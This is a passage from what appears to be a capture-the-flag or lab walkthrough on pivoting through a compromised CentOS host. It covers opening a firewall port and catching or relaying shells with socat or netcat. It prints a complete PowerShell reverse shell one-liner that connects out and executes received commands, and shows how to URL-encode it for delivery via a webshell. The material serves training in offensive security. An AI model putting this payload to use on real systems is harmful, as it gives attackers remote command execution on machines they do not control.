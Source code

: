 To start up a TCPDump listener we would use the following command:
tcpdump -i tun0 icmp

Note: if your VPN is not using the tun0 interface then you will need to replace this with the correct interface for your system which can be found using ip -a link to see the available interfaces.

Now, using the webshell, execute the following ping command (substituting in your own VPN IP!):
ping -n 3 ATTACKING_IP


Looks like we're going to need to think outside the box to catch this shell.

We have two easy options here:

- Given we have a fully stable shell on .200, we could upload a static copy of netcat and just catch the shell here
- We could set up a relay on .200 to forward a shell back to a listener


It is up to you which option you choose (although for the sake of practice, a socat relay is suggested); however, whichever way you choose, please be mindful of other users at earlier stages of the network and ensure that any ports you open are above 15000.
Before we can do this, however, we need to take one other thing into account. CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". By default, this firewall is extremely restrictive, only allowing access to SSH and anything else the sysadmin has specified. Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following command:
firewall-cmd --zone=public --add-port PORT/tcp
Substituting in your desired choice of port.

In this command we are using two switches. First we set the zone to public -- meaning that the rule will apply to every inbound connection to this port. We then specify which port we want to open, along with the protocol we want to use (TCP).


Let's go for a reverse shell!

We can use a Powershell reverse shell for this. Take the following shell command and substitute in the IP of the webserver, and the port you opened in the .200 firewall in the previous question where it says IP and PORT:

```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

As this is a web exploit, we now have to URL encode the shell command. If using Burpsuite, you can do this by pasting the command in as the value for the "a" parameter, then selecting it and pressing Ctrl + U:

![image](https://user-images.githubusercontent.com/89842187/132019199-442dfad4-3571-42dc-a1b7-fbecd46e072c.png)

f you are using cURL then there are a variety of options available. cURL does provide a --data-urlencode switch; however, it's often easiest to just use a website https://www.urlencoder.org/ to encode the shell command, then copy it in with the -d switch:

